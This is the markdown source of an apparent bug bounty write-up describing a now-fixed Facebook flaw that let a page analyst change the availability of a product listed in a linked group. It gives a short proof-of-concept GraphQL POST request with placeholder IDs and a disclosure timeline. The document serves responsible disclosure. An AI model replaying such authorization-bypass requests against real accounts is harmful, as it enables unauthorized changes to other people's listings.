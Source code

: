 ```yaml
---
layout: post
title: Facebook Change Product Availability as a PageAnalyst
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - onehackzero</p>

## Description

&nbsp;&nbsp;&nbsp;This bug could have let a malicious page analyst modify the availability of an item put up for sale by the page in a group linked to the page.

## Proof of Concept

{% highlight javascript %}
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID
query_params = {"3":"false","1":"image/jpeg","2":2,"0":{"surface":"GROUP_POST_CHEVRON","actor_id":"PageID","client_mutation_id":"","product_availability":"IN_STOCK","story_id":"<base64 encoded>"}}

{% endhighlight %}

## Timeline

- Jan 4, 2019 - Report Sent
- Jan 10, 2019 - Further investigation by Facebook
- Jan 23, 2019 - Fixed by Facebook
- Jan 25, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/JwZw6QJ_d18" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>